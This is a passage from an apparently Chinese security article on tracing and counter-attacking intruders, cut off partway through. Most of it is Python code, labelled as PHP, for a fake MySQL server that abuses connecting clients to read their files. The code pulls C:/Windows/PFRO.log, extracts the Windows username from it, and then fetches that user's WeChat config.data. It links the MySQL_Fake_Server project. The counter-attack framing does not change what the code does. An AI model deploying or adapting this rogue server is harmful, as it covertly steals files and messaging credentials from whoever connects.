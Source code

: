 ```php
    except Exception as e:
        print (e)

def run():
    port = 3306
    sv = socket.socket()
    sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sv.bind(("",port))
    sv.listen(100)

    while True:
        conn, address = sv.accept()
        logpath = os.path.abspath('.') + "/log/" + address[0] + '/PFRO.log'
        if os.path.exists(logpath):
            with open(logpath, 'r')as f:
                content = f.read()
            f.close()
            content = content.replace('\n','').replace('\r','').replace(' ','').replace('\t','').replace('\00','')
            try:
                res = re.findall(r'Users\\(.*)\\', content)[0]
                username = res.split('\\')[0]
                line = 'C:/Users/' + username + '/Documents/WeChat Files/All Users/config/config.data'              
                if not os.path.exists(os.path.abspath('.') + "/log/" + address[0]+'/'+line.replace("/", "_").replace(":", "")):
                    res = mysql_get_file_content(line,conn,address)
                    if res:
                        print ("Read Success! ---> " + line)
                    else:
                        print ("Not Found~ ---> " + line)
                else:
                    conn.close()
            except Exception as e:
                print(e)
        else:
            line = 'C:/Windows/PFRO.log'
            res = mysql_get_file_content(line,conn,address)
            if res:
                print ("Read Success! ---> " + line)
            else:
                print ("Not Found~ ---> " + line)
```

项目地址：[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

溯源反制
====

溯源
--
